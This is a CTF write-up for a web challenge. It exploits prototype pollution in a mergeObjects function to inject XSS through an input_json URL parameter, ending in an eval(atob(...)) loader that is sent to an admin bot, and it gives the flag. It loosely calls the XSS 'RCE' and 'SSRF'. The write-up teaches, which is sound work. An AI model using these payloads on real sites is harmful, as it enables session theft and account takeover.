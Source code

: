 # Kulkan (500 points) - Pentesting

![Alt text](image.png)

This problem is from kulkan sponsor. The challenge is to compliment Messi through customizing the compliment message with json. The json is parsed and the compliment message is displayed.

At the bottom we can see a hint: 
![Alt text](image-1.png)

This hint is seems familiar to us. It is a prototype pollution attack. The json is parsed and merged with the default json. The mergeObjects function is vulnerable to prototype pollution. We can pollute the prototype of the default json and add a new property to the default json. The new property will be added to the compliment message. The prototype pollution is well explained [here](https://portswigger.net/web-security/prototype-pollution).

Along with the hint, we need to do some OWASP framework, by starting with viewing contents and it's source code. We found a javascript that will do the job of Messi's compliment.
```js
const params = new URLSearchParams(window.location.search);
document.getElementById('input_json').value = params.get('input_json') || '';

let randomObject = {};

function mergeObjects(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            mergeObjects(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}

function applyUpdate() {
    const configStr = document.getElementById('input_json').value;
    let config = {};

    try {
        config = JSON.parse(configStr);
    } catch (e) {
        console.log("Invalid JSON, you can do better for Messi.");
        return;
    }

// Hey, you're doing a great job if you're here reviewing code. You've got this!
    let defaultConfig = { color: "blue", fontSize: "16px" };
    mergeObjects(defaultConfig, config);

    const complimentDiv = document.getElementById('compliment');

    if (defaultConfig.compliment) {
        complimentDiv.innerText = defaultConfig.compliment;
    }
    if (defaultConfig.color) {
        complimentDiv.style.color = defaultConfig.color;
    }
    if (defaultConfig.fontSize) {
        complimentDiv.style.fontSize = defaultConfig.fontSize;
    }
    if (randomObject.win) {
        complimentDiv.innerHTML = randomObject.win;
    }
}

applyUpdate();
```
So the web page will get `input_json` from the url and parse it as json. The json will be merged with the default json. The merged json will be used to compliment Messi and will be displayed in the `compliment` div.

Building the first payload to test the prototype pollution:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":true}}
```

![Alt text](image-2.png)

So the payload is working, this is road to XSS-RCE.

Now building our XSS payload :
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x onerrpr=alert(1)>"}}
```

![Alt text](image-3.png)

The payload is working, now we can build our RCE payload with XSShunter:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x id=yourencodedpayloadwithmaliciouslink onerror=eval(atob(this.id))>"}}
```
![Alt text](image-4.png)

There is nothing when just browsing the link. We need to find where we can get the flag with this RCE. With my big brain, there is an Admin bot page that accepts URL and feels like this is SSRF that reveal secrets in the server.

![Alt text](image-5.png)

And we got the flag

![Alt text](image-6.png)

**FLAG:** EKO{Kulk4n__Quetz4}